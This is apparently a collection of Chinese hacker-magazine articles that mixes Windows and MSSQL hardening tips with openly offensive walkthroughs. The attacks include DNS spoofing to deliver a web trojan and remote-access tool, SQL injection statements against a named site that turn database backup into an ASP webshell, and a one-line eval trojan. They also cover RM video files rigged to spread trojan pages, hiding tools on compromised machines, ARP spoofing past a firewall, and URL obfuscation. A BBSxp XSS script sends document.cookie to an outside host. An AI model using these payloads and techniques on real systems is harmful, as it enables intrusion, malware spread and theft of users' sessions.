这样设置后，当重新访问木马页面时会发现已经没有反应了，无论是冰狐狸子网页木马还是 MS06014 网页木马。注意：如果是在本机测试，需要放在自己的 wwwroot 文件夹里而不是直接双击运行，否则木马仍会被执行。

网页木马是防住了，但是对脚本和 ActiveX 的正常应用却出现了问题。比如登录 mail.163.com 邮箱后，输入用户名和密码点击“登录”会发现刷新页面后没有反应，在 126.com 中则无法进入自己的邮箱页面，因为它们都需要脚本支持。解决办法一是登录邮箱时取消 IE 限制，另一种方法是使用邮件客户端，如 Outlook 等。

禁止 WSHShell 对象、删除或更改系统文件夹中的 wshom.ocx 文件。不过，所有脚本最终都是由该控件解释执行，因此最好是将它改名。打开注册表，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}`，将其下子键全部删除（该 CLSID 为 WSHOM.OCX 的注册 ID），可先导出后再删除。

我们知道 WinXP SP2 的 IE 提供“下载已签名的 ActiveX 控件”选项（如图8、图9），但该功能可通过组件绕过。为防范此漏洞，可打开注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{6E449683-C509-11CF-AAFA-00AA00B6015C}`，把 Compatibility 键值改为 `00000004` 即可。

如果从脚本方面考虑，也可以删除关联文件或更改关联文件（最好是更改关联以便以后恢复）。脚本可以是 Script/VBS/JS/WSF 等。更改及删除关联文件的方法：在 CMD 提示符下找到 Windows 目录下的 WSCRIPT.EXE 和 JScript.exe 改名或删除，或通过“添加/删除程序”删除 WSH 组件。也可用注册表或文件夹选项中的“文件类型”进行修改（如图10）。

除了以上防范方法外，还可以换用别的网页浏览器，比如 FireFox。多数网页木马利用的是 IE 的安全缺陷，改用 FireFox 等浏览器可以在较大程度上防范这些网页木马。（文中涉及的工具：冰狐狸子网页木马生成器、MS06014 木马生成器）

## 来自攻击者的“欺骗”

张扬

网络“欺骗”的方式有很多种，比如“Cookie 欺骗”、“ARP 欺骗”、“DNS 欺骗”等等。本文将主要以 DNS 欺骗为例，以便让各位读者能够了解 DNS 欺骗的原理和欺骗方法。

当前 Internet 上存在的 DNS 服务器绝大多数都是使用 BIND 组件来架设的……BIND 会缓存（Cache）查询结果，这也引出了 DNS 问题。下面用简单流程说明 DNS 欺骗。

`QR / opcode / AA / TC / RD / RA / Zero / rcode` 等 DNS 标志位说明（右上方框内术语解释）。

### 正常的 DNS 请求流程

- 在浏览器输入 `http://www.cnhacker.com`
- 计算机向 DNS 服务器发起请求
- DNS 服务器解析并得到对应 IP
- 将 IP 返回给发出请求的计算机
- 正常登录目标网站

### 被 DNS 欺骗以后的 DNS 请求方式

- 在浏览器输入 `http://www.cnhacker.com`
- 计算机向 DNS 服务器发送请求
- 攻击者伪造 DNS 应答包返回伪造 IP
- 受害者访问到攻击者构造的陷阱网站

### 一、DNS 报文

DNS 报文是了解 DNS 攻击所必须了解的知识。

### 1. 格式（如表1）

| 标识（最重要的） | 参数 |
|---|---|
| 问题数 | 回答数 |
| 管理机构数 | 附加信息数 |
| 问题 |  |
| 回答 |  |
| 附加信息（这部分无关紧要） |  |

#### 2. DNS 报文结构分为

表2：参数（flag）字段分段示意：`QR | opcode | AA | TC | RD | RA | zero | rcode`（含位数标注）。

### 3. DNS 查询报文（表3为 DNS 报文查询格式）

| 查询名 |
|---|
| 查询类型 |
| 查询类 |

### 4. DNS 响应报文（如表4）

| 域名 |
|---|
| 类型 |
| 类 |
| TTL（生存时间） |
| 资源数据（资源数据长度） |

响应报文有个共同格式，称为资源记录（RR）格式：域名、类型、类、TTL、资源数据长度等。随后讨论反向解析与伪造响应的关系，并引出 DNS 欺骗（dnsspoofing）的危害。

### 二、应用

文中使用 `dnshack.exe` 作为工具，在黑鹰的 CMD 下运行；输入类似 `dnshack 你在局域网的IP 你要欺骗的IP` 的命令进行演示。

……这样对方被骗以后才能中招。马上准备网马一份，这里我使用的是“老虎2006过全系统网页木马音乐版”，打开后如图2。

使用方法很简单，先填写网页木马的路径（不填文件名），然后选择木马，最后点生成文件。成功后会在本目录下释放出多个文件（如 index.htm、98.htm、2000.htm、xp.htm、dongfang.gif 以及同名 .mp3 等），访问页面为 index.htm，再把网页放在 IIS 目录中即可。

为更好演示效果，使用一台 Web 服务器并在局域网中测试，目标主机为 192.168.0.4。启动 dnshack.exe，输入命令：`dnshack 192.168.0.4 192.168.0.2`，回车……

……192.168.0.4 这台机器运行 IE 浏览器输入网址后就种下配置好的木马。稍后可在彩虹桥 Bifrost 中看到木马上线（如图3）。

整个攻击流程结束。以上就是使用 DNS 欺骗配合网页木马的一次渗透实例。DNS 欺骗属于非典型入侵手段，请勿用于非法用途。

### 三、解决方法

- 对于个人主机，及时更新补丁或使用代理可防范 DNS 攻击。
- 对高标准服务器应做到：
  - 安装新版软件
  - 关闭服务器递归功能
  - 限制域名服务器做出反应的地址
  - 限制域名服务器做出递归响应的请求地址
  - 限制发起请求的地址

（本文所涉及软件：dnshack.exe、老虎2006过全系统网页木马音乐版、彩虹桥 Bifrost，光盘已收录）

> 【火小编语】网络攻击方法很多，不仅有溢出和注入；如 Cookie 欺骗、ARP 欺骗、DNS 欺骗等也很常见。方法虽看似简单，但威力很大，应掌握其原理并用于防护。

## 注入在 MSSQL 数据库的备份漏洞

一个网站核心是数据库。常见数据库如 ACCESS 与 SQL。对 SQL 数据库而言，若连接用户为 `sa` 权限，注入点可能导致整站失陷；若为 `db_owner`，也可能得到 WebShell，常见方式之一是利用数据库备份功能。

下面示例说明如何通过注入利用备份生成 ASP 文件。示例地址：`http://www.pc010.cn/jmdcw.asp?name=music`，注入语句常见拼接如 `and '1'='1`。工具虽多，但过度依赖工具会削弱分析能力。

在利用 SQL 数据库备份生成 ASP 时，关键是知道网站物理路径。Win2000 常可在注册表找到；Win2003 中可借助 `db_owner` 权限下的一些扩展过程，如 `xp_dirtree` 读取磁盘目录信息。

```sql
1) http://www.pc010.cn/jmdcw.asp?name=music';
DROP TABLE Ccc_Tmp;
CREATE TABLE Ccc_Tmp(subdirectory nvarchar(400) NULL, depth tinyint NULL, [file] bit NULL);
-- 创建存放文件/目录信息的临时表

2) http://www.pc010.cn/jmdcw.asp?name=music';
DELETE Ccc_Tmp;
INSERT Ccc_Tmp EXEC master..xp_dirtree ...

3) http://www.pc010.cn/jmdcw.asp?name=music' And (Select Top 1 cast([subdirectory] as nvarchar(400))+char(124)+cast([file] as nvarchar(1))+char(124) From (Select Top 1 [subdirectory],[file] From Ccc_Tmp ORDER BY [file],[subdirectory]) T ORDER BY [file] desc,[subdirectory] desc)=0 And 'FALSE'<>''
...

4) http://www.pc010.cn/jmdcw.asp?name=music' DROP TABLE Ccc_Tmp --
```

按照上面的流程，不断更改“xp_dirtree”后的目录，再进行一系列的比较判断，网站的物理路径也就渐渐浮出水面了！有志者，事竟成！

OK！拿到网站的物理路径后，接下来就轮到备份来表现了！以下是数据库差异备份的代码（差异备份比直接备份生成的文件要小很多）。

```sql
1) ... drop table [jm_tmp]; create table [dbo].[jm_tmp]([cmd] [image])
2) ... declare @a sysname,@s nvarchar(4000); select @a=db_name(); backup database @a to disk=@s
3) ... insert into [jm_tmp](cmd) values(0x3C2565...)
4) ... backup database @a to disk='e:\www\upfile\jm.asp' WITH DIFFERENTIAL, FORMAT
5) ... drop table [jm_tmp]
```

当执行完上面的语句后，就会在 `e:\www\upfile\` 中生成一个 `jm.asp` 文件，其源码中就包含有最小的 ASP 木马语句，接下来用一句话木马的客户端去连接对应虚拟地址，WebShell 也就到手了！

说完了 WebShell 的实现过程（上面是一个大致流程，实际情况要因机制宜），下面就来谈谈如何堵住这个备份漏洞。

## 1、禁用数据库的备份功能

打开 MSSQL 的企业管理器，依次展开“SQL Server 组”-“(Local)”—“数据库”，在数据库上点右键选择“属性”，切换到“权限”面板，默认 `db_owner` 用户权限过大，应禁用“备份 DB”和“备份日志”权限。

图1

打开 MSSQL 自带的“查询分析器”测试备份命令，数据库拒绝“BACKUP DATABASE”权限；继续测试 T-LOG 备份，错误类似，说明禁用“备份DB”和“备份日志”后可阻断备份漏洞。

图2

## 2、禁用数据库的创建表功能

为了网站安全，管理员常进行数据备份；若单禁“备份DB”会影响管理。进一步分析前述入侵代码，核心常含“CREATE TABLE”。若禁用“创建表”权限，可限制入侵行为。测试表明，网站初次建库时会用到 CREATE TABLE，后续运行阶段很少使用。

OK！在数据库权限窗口禁用“创建表”，启用“备份DB”后再测：备份可正常执行；再执行 `Create table jmdcw(jm nvarchar(256))` 则返回拒绝 CREATE TABLE 权限。

```text
服务器: 消息 262，级别 14，状态 1，行 1
在数据库 'bbsxp' 中拒绝 CREATE TABLE 权限。
```

瞧！数据库拒绝“CREATE TABLE 权限”！这样一来，既保证数据库备份的正常运行，还堵住了备份漏洞，一举两得！

### 3、加入 SQL 版 NoDown 表

俗话说：“计划没有变化快”！如果入侵者通过某种方式得到了网站物理地址，将一句话木马插入到表中的某个字段中，然后进行数据库备份，不也能实现其目的吗？带着这个疑惑，在“查询分析器”中执行如下命令：`insert into [users] (username) values(...)`，将一句话木马插入到 users 表的 username 字段中。

然后，用 `backup database` 命令备份数据库到网站目录中，再用 IE 去访问这个 ASP 文件，在返回信息的最下方出现了“类型不匹配”“execute”。哇！漏洞又出现了！看来还需要打个补丁之类的进行加固！

为了保障测试的无误性，我重新创建了一个干净的数据库，然后在“查询分析器”中执行以下命令创建 SQL 版防下载 NoDown 表，并通过 MSSQL 企业管理器在“权限”中禁用数据库连接用户在此表中的所有权限。

接下来，在“查询分析器”中执行插入命令，把一句话木马插入到某个字段中，然后用 `backup database` 将数据库备份至网站目录中，再用 IE 去访问这个 ASP 文件，如图4所示：“编译器错误！缺少语句”。接着又用差异备份语句进行测试，返回错误信息和前面一致。

图3

图4

- 加入防下载 NoDown 表，防范数据库备份及差异备份的漏洞。
- 禁用“Create Table”，拒绝用户创建表，防范入侵者读取磁盘目录等非法行为。
- 禁用“备份日志”，堵住在第一条中防范不了的数据库“备份日志”漏洞。

以上就是我修补 MSSQL 数据库备份漏洞的过程，权当抛砖引玉，如果大家有更好的方法，记得拿出来共享哟！

## 从本地防护到网络入侵全攻略

作者：孟星魂

现在网上的攻击事件太多了，几乎每一个用户都曾经中过木马或病毒。首先要做的就是把自己的电脑防护好，这样才能再去“关注”别人。本文介绍我配置个人电脑和入侵防护的一些经验，希望对大家有所帮助。

我一直认为本地安全中最重要的是文件权限问题，当然最好安装杀毒软件和网络防火墙。网络防火墙我推荐使用 BlackICE（黑冰）……

防火墙在运行程序之前会询问用户。对已设置了文件权限的系统来说，假设你使用网页木马，攻击者即便得到网站管理权限，也很难在本地执行其木马文件。多数管理员防范 ASP 木马的办法是修改 FSO 组件的注册项，但缺点也明显，设置好文件权限通常更安全。

权限分配可在文件属性的“安全”选项中进行详细设置。XP 下可通过组策略（gpedit.msc）查看和配置相关安全策略，例如“网络访问：本地帐户的共享和安全模式”等。

## 黑客研究院

仅来宾换成经典即可。不过，只是这样设置是不行的。我们使用无敌最寂寞大哥写的批处理文件来测试一下，看看选择的帐户权限对指定目录是否可写：

```bat
@Echo 找到可写目录的工作：我是最寂寞专用
@Echo 正在查询的目录是 %1:
@echo off
for /D %%i IN (%1\*.*) do echo test> %%i\test.txt
for /D %%j IN (%1\*.*) do if EXIST %%j\test.txt echo %%j 此目录用这个用户的权限是可写的
for /D %%k IN (%1\*.*) do if EXIST %%k\test.txt del "%%k\test.txt"
```

用记事本保存为 test.bat，然后使用 runas 命令选择一个用户打开命令提示符，格式是：`runas /profile /user:你想使用的用户 cmd.exe`。这样就会以你想测试的用户权限打开一个 cmd 窗口，在这个窗口里运行 test.bat，格式是：`test.bat 你想测试的目录`，如图1。

我电脑上 user 用户只能读取和运行文件，是没有写权限的。但是在图1中可以看到，在 Windows 下的 tasks（计划任务）目录是可写的。看来并不能完全相信 Windows 权限。这个批处理只能查找目录，功能还是很有限的，使用 AccessEnum 这个工具可以查询包括普通程序文件和注册表的用户使用权限。不检测不知道啊，权限限制后还是有很多 Everyone 权限的文件。倘若网站被入侵了，可以使用这个工具检测哪些文件是危险的，如图2。

图1

图2

在正常设置的时候，就算是用高级安全设置让子目录继承权限也没用。如果你想绝对安全，就只能用系统的 cacls 命令一个一个地重新分配。

再就是 CMD 的安全了，各位朋友都知道，入侵后一般是先使用命令提示符。以前 X 档案上也有朋友说可以在命令提示符运行之前加上自动退出的批处理，就是在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 和 `HKEY_CURRENT_USER\Software\Microsoft\Command Processor` 的 autorun 下添加。可是这样做的话自己也没办法使用命令提示符了，不如自动加上一段音乐，提醒自己有网络上的朋友访问，再采取相应的措施。我还有一个办法，在命令提示符里还有个 DOSKEY 命令。这个命令相当于宏，可以用 DOSKEY 命令给常用命令改名。比如 cmd 下使用最多的就是 net 命令，把 net 换成其它的字符串，只要让入侵者猜不到就行，方法为：

```bat
doskey xuanyuan14=net $*
doskey net=echo bad command or file name
```

迷惑入侵者。

其它的命令比如 format 也这样修改，然后把批处理放在注册表的 autorun 下，在 cmd 之前运行。在每行前加上“@”去掉命令回显，这样入侵的朋友使用 net 命令时显示的是“bad command or file name”，就会误以为是删掉了 net.exe 这个文件。就算他复制过来相应的文件也不会用，因为 DOSKEY 已经执行过了，只能用替换过的命令去运行，如图3。再加上权限限制，应该可以躲过绝大多数菜鸟级黑客了。

图3

是 file lock。我觉得最高级的就是修改文件头，加上运行密码后不改变原程序，输入密码后就能直接运行。找了半年总算让我找到了这种软件，经过这个软件加过密码的程序运行之前需要密码，三次出错后自动退出，而且使用 WinHex 查看内存也找不到密码。相信各位朋友看一遍说明都会用，就不再废话介绍了。唯一不足的就是加过密的软件的图标变得惨不忍睹，自己就用资源修改程序改改吧，如图4。

本地电脑已经够安全的了，现在就可以放心地入侵别人了。用什么方法？目前通过远程溢出攻击基本上不太可能实现，很少有使用 Win2000 系统的个人用户了，连网站服务器都基本上使用 Win2003。还是用网页木马吧，可以考虑在论坛挂马。要想传播比较快的话可以用 PP 点点通或 VGAA，在上边放上几个电影，共享的人特别多。我找了个软件 RmEvents，可以在 RM 格式的电影文件里（现在只能用 RM 文件，暂时没找到支持其它格式的工具，至于 RMV 格式可转换为 RM 格式）设置事件，比如在指定的时间访问某个网页。

```text
test.txt 内容示例：
u 00,01,00.0 00;59;30;0 http://www.hackerxfiles.net
```

就是指定在电影观看后的一分钟打开 http://www.hackerxfiles.net，而且就算是在观看后五十九秒之内关闭这个窗口或拖动电影的时间进度条后，还是会弹出网页窗口。把这个文本文件和你想处理的 rm 文件放在 RmEvents 目录里，在命令行下运行：

```bash
RmEvents -i input.rm -o output.rm -e test.txt
```

input.rm 是你想处理的文件，output.rm 是处理后的文件名，如图5。

怎么让别人访问就要靠你自己发挥了，比如用个吸引人的名称。另外别让人一眼看出是网页木马，木马一定要用免杀的等。现在等着肉鸡排队来找你吧。这种挂马的方法危害很大，但是也是有办法防范的。可以在观看之前使用 rmevents 先查看一下有没有包含弹出窗口，相应的命令是：

```bash
rmevents -i input.rm -d dump.txt
```

这样能导出 RM 文件相应的资源，包括事件和剪辑信息，处理后的事件文件是 dump.txt_evt.txt，如图6。

因为没加上缩略图，所以在导出其它资源的时候会显示出错，主要事件文件 dump.txt_evt.txt 能够正常显示就行。大家也应该想到了，加上空白的事件信息就可以去掉弹出窗口，就是建一个空白的 test.txt。还是按原来的命令导入。为了方便看电影的时候不用自己一个一个地处理，这里给出个人写的“Real 事件清除工具”，可以批量去掉 RM 弹出窗口。这个软件使用的时候会提示 WINDOWS 某某文件出错，不用管，取消即可，完成后会生成文件名为“_原文件名”的 RM 文件。

控制肉鸡也不容易，就怕对方重装系统，所以一定不能让肉鸡管理员怀疑机器上有木马。至于怎么保护我就不再废话了，X 档案上有很多教程。今天只是给大家介绍一下怎么在肉鸡上隐藏程序窗口。因为很多工具都是显示任务栏图标和窗口界面的，这种软件一般功能强大，但很容易被肉鸡管理员发现；而命令行下使用的工具大多数功能简单，操作性较差。如果能够隐藏窗口，控制肉鸡就能上一个档次，和在本地差不多。先处理系统托盘的图标问题，估计大家从前挂 QQ 号的时候都用过 Ps Tray Factory。


图 4


图 5


图 6

## 黑客研究院

这个软件的主要功能是隐藏任务栏图标。在图标选项里把想隐藏的状态栏图标打勾，程序图标就不会显示出来了。想运行可以给程序设置快捷键，如图7。软件的安全性也不错，可以设置成开机自启动，启动项是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`。


另外还能在运行这个程序时加密码，默认为空。它也能隐藏窗体，先在“程序最小化”里选择程序最小化到任务栏，再用隐藏图标功能。还可修改窗口标题和任务栏图标的提示信息，并可设定过滤窗口，发现列表中的窗口标题后自动隐藏，如图8。


其实这个程序的所有配置都在目录下的 `Options.ini` 文件中，在自己的电脑上先设定好该隐藏什么，直接把程序拷贝到对方机器去。需要开机就隐藏窗体的话还要有开机自启动的注册表项。注意运行这个软件要完整安装过 Office，简版环境下可能弹出 `Windows Installer`。

下面介绍的隐藏软件中，不管怎么隐藏窗体和任务栏图标，进程总会显示。为进一步隐藏，文中提到使用 Aggress.exe，可在任务管理器进程选项中隐藏进程，默认注入 `explorer.exe`，并可通过热键 `CTRL+ALT+ZR` 呼出主窗口。


这个软件默认是开机自动加载的，注册表项是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，显示为 `Aggress.exe`。软件优点较多，当前杀毒软件不易查杀。文末附注：本文涉及软件如 test.bat、AccessEnum、file lock、RmEvents、Real 等仅供收录说明。

## 突破防火墙

### 利用 ARP 欺骗突破防火墙

黑侠 & 肖文红

说起 ARP 欺骗手段，相信常看黑客 X 档案的朋友一定都很熟悉吧。在网上也常常看到一些防火墙声称能够防范内网的 ARP 欺骗，但是却总有人抱怨说防火墙对 ARP 欺骗束手无策。那么防火墙到底能不能够防范住内网的 ARP 欺骗呢？带着这个疑问，下面我们来做个实验吧！

### 一、网络执法官 VS 防火墙

网络执法官是一款很强的网络管理软件，它可以穿透防火墙、实时监控、记录整个局域网用户上线情况，可限制各用户上线时所用的 IP、时段，并可将非法用户踢下局域网。

首先，在 A 主机上安装好网络执法官，然后运行“网络执法官”，选择好网卡、添加 IP 地址、子网掩码以及要监控的网段范围，如图1。然后确定，程序将自动找出网段里的所有主机。

在 B 主机上安装好防火墙（就用风云防火墙吧），将防火墙运行。我们再来到 A 主机，对 B 主机进行 ARP 欺骗（也就是将 B 主机锁定，不让它上网），如图2，看看 B 主机还能不能上网。防火墙一点反应也没有，开个网页试试，打不开了吧！

A 主机 IP 地址为 192.168.0.2，B 主机 IP 地址为 192.168.0.94，C 主机 IP 地址为 192.168.0.185。先给 B 主机防火墙添加 IP 端口规则，只允许 IP：192.168.0.185（即 C 主机）访问主机 21、23、3389 端口。

点击“IP 端口规则”→“增加 IP 规则”，名称随便填一个，数据包方向：接收，协议类型：TCP，IP 地址：从 192.168.0.185 到 192.168.0.185，端口填 3389，规则动作：通行，再陆续将 21 和 23 端口也添加进去，操作步骤和前面一样，如图3。当然事先要在 B 主机上开放这些端口。


图 1


图 2


图 3

好了，防火墙已经设置完成了。下面打开 CMD，给 C 主机发一个 ICMP 包（就是 PING 一下 192.168.0.185），再用 `ARP -A` 命令看一下目前 B 主机 ARP 缓存表的情况，如图4。


图 4

```bash
C:\Documents and Settings\new>arp -a

Interface: 192.168.0.94 --- 0x20003
  Internet Address      Physical Address      Type
  192.168.0.1           00-03-03-38-25-04     dynamic
  192.168.0.185         00-60-08-1c-2d-3d     dynamic
```

### 二、突破防火墙的入侵

防火墙一般都是工作在网络层，并且所有的防火墙都具有 IP 地址过滤功能。这项任务要检查 IP 包头，根据其 IP 源地址和目标地址作出放行/丢弃决定。但是这项功能在内网里使用就显得有些被动，因为内网的 IP 不像外网一样是电信或网通分配的，而是可以根据自身需要修改的；再说防火墙只认 IP 地址，不认 MAC 号。就凭这一点 ARP 欺骗就可以实现了。还有 ARP 协议工作在数据链路层，防火墙和 ARP 工作在两个不相同的层，所以在内网里很容易实现冒充他人的合法 IP，突破防火墙访问对方主机。

当前 IP 为 192.168.0.185，MAC 为 00-60-08-1c-2d-3d。在防火墙上的配置里，只要 IP 地址为 192.168.0.185 的主机访问本机的 21、23、3389 端口都是可以通过的，不管那个 IP 地址是不是非法用户伪造的。局域网的网络流通不是靠 IP 地址来传输的，而是通过 MAC 地址进行通信的，和防火墙的通信原理恰恰相反。既然知道了这个原理，下面我们想个方法让 192.168.0.185“死机或关机”后，再由 A 主机伪装该 IP，通过 ARP 欺骗向 B 主机更新映射关系，从而继续通信，更新自身的 ARP 表。于是主机找到该 IP，更新自己的 ARP 表，将新 IP 和 MAC 地址加进去，如图5。

```bash
C:\Documents and Settings\qq>arp -a
Interface: 192.168.0.94
Internet Address      Physical Address      Type
192.168.0.1           00-03-03-38-25-04     dynamic
192.168.0.185         00-16-17-10-a5-2e     dynamic
```

图 5

终于防火墙被突破了，我们现在如愿以偿地 TELNET、FTP、3389 到 B 主机了哦，嘿嘿……其实防火墙也存在很多不足之处，就拿 ARP 欺骗来说吧……

在此也希望在下一代的防火墙里能加入 IP 和 MAC 地址静态绑定的功能，全面对抗 IP 欺骗、SYN Flood、ICMP、ARP 等攻击手段……

> （X 小编语）老实说，这篇文章我认为不是太完善，可是作为一种突破防火墙的思路，倒值得一提……


## URL 欺骗初探

fhod [E.S.T VIP]

在 06 年第 7 期《X 档案“拦马，别忘了还有 PHPWind 论坛”》一文中提及的 URL 欺骗方式引起了我极大的兴趣……

对比两段代码后，我们会发现第一段代码中多了一条 `<a herf="http://www.163.com" target="_blank">`，就因为这一句代码错误，导致了欺骗不成功。

```html
<p><a id="exploit" href="http://网站地址"></a></p>
<div>
  <a herf="http://www.163.com/" target="_blank">
  <table>
    <caption>
      <a herf="http://www.163.com" target="_blank">
      <label for="exploit">
      <u style="cursor:pointer;color:black">www.163.com</u>
      </label>
    </caption>
  </table>
  </a>
</div>
```

既然已经知道了错误所在，我们就以实例来演示一下 URL 欺骗……如图1。


图 1

单从 `<a herf="http://www.163.com/" target="_blank">` 这一句就可以看出这段代码是错误的……问题出在哪儿呢？来看一下下面的代码：

```html
<p><a id="SPOOF" href="http://localhost/"></a></p>
<div>
  <a href="http://www.163.com" target="_blank">
  <table>
    <caption>
      <label for="SPOOF">
      <u style="cursor:pointer;color:blue">www.163.com</u>
      </label>
    </caption>
  </table>
  </a>
</div>
```

但当我们点击后，最终打开的却是 http://localhost/，如图2。在实际运用中我们只需要把 http://localhost/ 更换为我们自己的网页木马地址就行了。下面我们来看一下另外几种 URL 欺骗的方式……

普通的形式定义为 `<scheme>:<scheme-specific-part>`。`<scheme>` 部分是网络协议名称，`<scheme-specific-part>` 部分被定义为 `//<user>:<password>@<host>:<port>/<url-path>`，其中只有 `<host>` 部分是必须的，“:” 和 “@” 字符具有特殊的含义，从而服务器可以解析完整的字符串。如果用户名和密码包含在 URL 中，`<host>` 部分只是从 “@” 字符后开始。


图 2


图 3

来看一个欺骗的例子：`http://www.163.com@www.hackerxfiles.net`，其中真正的主机是 `www.hackerxfiles.net`，而 `www.163.com` 在这个 URL 中不过是个假的用户名，服务器会忽略它，最终打开的页面是 `www.hackerxfiles.net`。由于前面的地址为 `www.163.com`，因为大家都知道这是网易的网址，都比较信赖它，所以这就很好地起到了欺骗作用。

不过有一点需要说明的是，该写法在最新版 IE6.0 里使用会提示语法错误，但是如果对方使用的是第三方浏览器，比如 Maxthon、腾讯 TT、GreenBrowser 等，依然可以欺骗，而 IE6.0 以下的版本也都可以通过。


图 4

上面关于 URL 的分析只是简单隐藏了它的真实目的地。我们可以用更好的方法进行隐藏。由于某些原因，有的操作系统对 IP 地址的表示不是通过我们常见的 `aaa.bbb.ccc.ddd` 的格式，而是相应的十进制数。

`http://127.0.0.1/` 这类地址可以改写成十进制值 `http://2130706433/`，在浏览器中输入后会发现已经打开了 `http://127.0.0.1/` 这个主页，不过这个方法在 IE6.0 上测试无效，所以有局限性。

我们来看一个点分八进制和点分十六进制的加密工具。可以看到对 `127.0.0.1` 的点分八进制加密结果为 `http://0177.00.00.01/`（图3），在浏览器中输入会看到打开了 `127.0.0.1` 页面，如图4。


图 5


图 6

点分十六进制加密 `127.0.0.1` 后得到的结果为 `http://0x7F.0x0.0x0.0x1/`，在浏览器打开同样会得到相同结果。

这个工具还提供了一个 URL 加密，如图5。待加密 URL 可以为 IP 地址也可以为域名。我们以 `www.hackerxfiles.net` 为例，点击加密后得到编码结果，在浏览器输入后就会打开黑客 X 档案的主页，如图6。

当然 URL 欺骗的方式是多种多样的，本文只是介绍了其中几种常见方法。

> （文章中涉及到的工具恶の黑客刺刀Ⅱ以及域名欺骗.htm已经收录于光盘中）


## BBSxp7.0 Beta2

TTFCT [E.S.T]

## 最新漏洞解析

这天到 BBSXP 的官方网站上看了一下，发现 BBSXP 已经升级到最新的 7.0 Beta2 了。前两日曾有一朋友发来一个 6.0 的版本，我粗略地看了一下，发现 BBSXP 6.0 后台存在遍历目录的漏洞。不过，现在既然 7.0 的 Beta2 都出来了，相信那个漏洞应该被修补上了。我下载了 7.0 Beta2，果然发现那个漏洞已经修补上了，但同时也发现了好几个新的漏洞。

从上面的代码得知，在备份数据库功能中，原来的数据库路径是无法改变的，官方已设定了，只能把 `database/bbsxp7.mdb` 备份到一个我们想要的目录中。同样，在恢复数据库部分我们也无能为力。难道真的没有办法解决后台获得 WEBSHELL 的问题了吗？当然是有办法的。

### 一、后台获取 WEBSHELL

- 1. 整个论坛中只有一处地方没有过滤好，其它的都过滤得很好。原以为可以从这里突破，但仔细一看才发现程序员对其长度进行了限制，设置了只允许接受 15 个字符，而这种验证又是在服务器端的，我们要想对它修改根本就是不可能的。
- 2. 进入后台后，我发现利用数据库备份的方法来得到我们的小马已经不可能了，如图1。查看其源代码，我们得到备份部分如下。

方法一：把 BBSXP 的数据库打开我们便会知道，程序员根本就没有对它进行防下载处理。这样的话我们就可以按下面的方法得到 WEBSHELL。首先，找一处没有过滤“<”、“>”、引号和小括号的地方加入一句话木马，代码为 `<% eval request("go") %>`。我选择了在广告代码设置中加入，如图2。然后我们进行备份数据库，把数据库备份为 ASP 格式，如图3。再利用 LAKE2 的一句话客户端就可以成功连接了。


```html
<table cellpadding="0" cellspacing="0" width="90%">
<tr>
  <td width="30%">数据库路径：</td>
  <td width="70%">database/bbsxp7.mdb</td>
</tr>
<tr>
  <td width="30%">备份的数据库路径：</td>
  <td width="70%"><input size="30" value="database/bbsxp7(2006-8-18).mdb" name="BakDbPath"></td>
</tr>
<tr>
  <td width="100%" align="center" colspan="2"><input type="submit" value="备 份"></td>
</tr>
</table>
```

而恢复部分的代码如下：

```html
<td width="30%">备份的数据库路径：</td>
<td width="70%">
  <input size="30" value="database/bbsxp7(2006-8-18).mdb" name="BakDbPath">
</td>

<td width="30%">数据库路径：</td>
<td width="70%">database/bbsxp7.mdb</td>

<td width="100%" align="center" colspan="2">
  <input type="submit" value="恢 复">
</td>
```


方法二：在后台的上传设置里增加上传类型为 htr 格式，如图4。可能会有读者要问了，为什么要选择 htr 格式？难道 asp、asa、cer 格式不行吗？当然不行。我们来看一下原因。在 `INC/UPFILE.ASP` 的 1-7 行中会看到如下代码：


```asp
<%
sub CheckFileExt() '检查上传文件后缀类型
  if FileSize < 1 then error02("您可以传为2字节文件")
  if FileSize > UpMaxFileSize then error02("文件大小不得超过" & CheckSize(UpMaxFileSize) & "，当前文件大小为" & CheckSize(FileSize) & "")
  FileExt = LCase(Right(FileExt, Len(FileExt)))
  if FileExt <> "asa" or FileExt <> "asp" or FileExt <> "asx" or FileExt <> "cer" then
    error02("对不起，管理员设定本论坛不允许上传" & FileExt & "格式的文件")
  end if
end sub
%>
```

而在 IIS 的“应用程序配置”→“映射”中我们可以看到，除了常见的 asp 格式外，还有 cdx、cer、asa 和 htr 格式，所以我们只要在后台上传设置增加 htr 格式即可。

### 二、BBSXP 的 COOKIE 欺骗漏洞

```asp
if isNumeric(Request.Cookies("UserID")) then
  sql="select * from [BBSXP Users] where id='"&Request.Cookies("UserID")&"'"
  Set Rs=Conn.Execute(Sql)
  if Rs.eof then
    CleanCookies()
    Response.Write "<script>window.setTimeout('window.location.reload()',2000)</script>"
    Response.End
  end if
  if Request.Cookies("Userpass")<>Rs("Userpass") then
    CleanCookies()
    Response.Write "<script>window.setTimeout('window.location.reload()',2000)</script>"
    Response.End
  end if
  CookieUserID=Rs("ID")
  CookieUserName=Rs("UserName")
  NewMessage=Rs("NewMessage")
  UserRoleID=Rs("UserRoleID")
  Rs.Close
end if
```

从上边这段代码我们可以看出，程序首先取出 Cookie 中的 UserID 进行 SQL 查询；若查询成功，再把 Cookie 中的 Userpass 与数据库中的 userpass 比较。两者相同则执行登录，并把数据库中的 id、UserName 等赋给 Cookie 变量，最终完成登录。这说明 BBSXP 存在 Cookie 欺骗漏洞。

那么我们如何得到用户的 Cookie 呢？发帖处对“<”和“>”做了过滤，`<script>alert("hackerfiles")</script>` 会被转义。可以尝试通过标签绕过；本文使用 Flash 跨站来实现对 Cookie 的获取。

### 三、FLASH 跨站

在 Flash 中加入关键帧，并在动作里使用 `getURL("http://blog.ttfct.com", "_blank")` 等参数控制打开方式。为了不弹窗且读取 Cookie，可通过 `insertAdjacentHTML` 注入 HTML，核心思路是让脚本在本地页面执行并把 Cookie 发送出去。

- js 的代码如下：

```javascript
cookieurl='http://blog.ttfct.com/ck.asp?cookie='+escape(document.cookie)
document.body.insertAdjacentHTML('beforeEnd','<iframe width=0px height=0px style="display:none" src="'+cookieurl+'"></iframe>')
```

```html
... src="'+cookieurl+'"></iframe>'
```

